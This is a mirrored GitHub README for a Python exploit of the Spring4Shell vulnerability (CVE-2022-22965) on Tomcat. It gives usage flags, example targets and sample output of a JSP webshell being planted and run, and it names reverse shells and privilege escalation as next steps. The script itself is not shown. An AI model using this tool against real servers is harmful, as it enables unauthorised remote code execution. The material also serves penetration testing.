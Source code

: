 # CVE-2022-22965

spring4shell | CVE-2022-22965

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/p1ckzi](https://github.com/p1ckzi) |
| Url      | [https://github.com/p1ckzi/CVE-2022-22965](https://github.com/p1ckzi/CVE-2022-22965)                                               |
| Stars    | 20                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-22965* exploit* pentesting* spring-framework* tomcat

</details>

## Readme

# spring4shell ⭐
a python implementation of CVE-2022-22965 that provides a prompt to the user in the style of an ssh session.  
the script is designed to be easy to understand and execute, with both readability and accessbility - depending on the user's choice. Designed for exploiting the vulnerability on tomcat servers. The fileDateFormat field on the server will be set and unset as part of the script which allows the exploit to be run multiple times. Cleanup may be required.

## the exploit - CVE-2022-22965 ❗
vulnerability found in
the java spring framework before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19 and running on a version of the Java Development Kit greater than or equal to 9.
More info:  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965

## prerequisites ✔
requests module and BeautifulSoup module are required for the exploit to run. these can be installed with:  
`pip3 install bs4`  
`pip3 install requests`  
all other modules are built into python3.
## usage ℹ
the script only requires the url of vulnerable server to run. however there are other flags for ease of access, etc.  
output of --help:
```
usage: spring4shell_v3.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] [-a] [-n] address

spring4shell_v3.py exploits an RCE vulnerability in
applications running spring core java framework.

positional arguments:
  address               ip/hostname, port, sub-directories to the vulnerable spring core framework on tomcat

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        name of the file to create and upload
  -p PASSWORD, --password PASSWORD
                        password to protect the uploaded shell
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

example:
        spring4shell_v3.py http://10.10.10.10/
        spring4shell_v3.py http://hostname:8080/ -p 'password123'
        spring4shell_v3.py http://10.10.10.10/subdir/ -a -f 'jsp-shell'

```
***
example output:
```
./spring4shell http://spring-vuln.local

                /           /  |      /         / /                                                            
 ___  ___  ___    ___  ___ (___| ___ (___  ___ ( (                                                             
|___ |   )|   )| |   )|   )    )|___ |   )|___)| |                                                             
 __/ |__/ |    | |  / |__/    /  __/ |  / |__  | |                                                             
     |                __/                                                                                      
CVE-2022-22965.
[i] attempting to change tomcat log variables.
[+] log variables set successfully.
[+] attempting to change tomcat log location variables.
[+] log successfully modified.
[i] waiting for tomcat changes.
[i] sending the webshell.
[i] resetting the log variables.
[i] shell location:
[i] http://spring-vuln.local/20df2b10c787d5ae.jsp?pwd=bd72c5e8&cmd=whoami
[i] or run commands here. type 'exit' to quit.
spring4shell:service@spring-vuln.local $ whoami
service

spring4shell:service@spring-vuln.local $
```
## limitations ⚠
it goes without saying that the script does not provide the user with a full shell, but designed as a platform for achieving a full reverse shell, privesc, etc, on the target.  
The script attempts to harvest the user/service running the vulnerable server so that it can be used as part of the pseudo command prompt in the program, though this is not always reliable.
## notes 📝
the script was mainly an exercise in python scripting for a single exploit with both readability and accessibility in mind. designed for ease of use and understandability. attempts to handle common exceptions.
## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.



## Get the content

```
git clone https://github.com/p1ckzi/CVE-2022-22965
cd CVE-2022-22965
```

{% embed url="https://github.com/p1ckzi/CVE-2022-22965" %}

<figure><img src="https://avatars.githubusercontent.com/u/44880203?v=4" alt=""><figcaption><p>p1ckzi</p></figcaption></figure>
